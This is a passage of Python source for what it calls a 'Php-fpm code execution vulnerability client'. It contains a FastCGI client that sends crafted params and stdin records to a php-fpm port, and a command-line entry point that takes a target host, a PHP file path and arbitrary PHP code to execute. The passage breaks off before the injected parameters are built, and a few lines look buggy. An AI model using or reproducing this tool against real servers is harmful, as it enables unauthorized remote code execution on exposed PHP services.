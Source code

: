 ```python
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
```
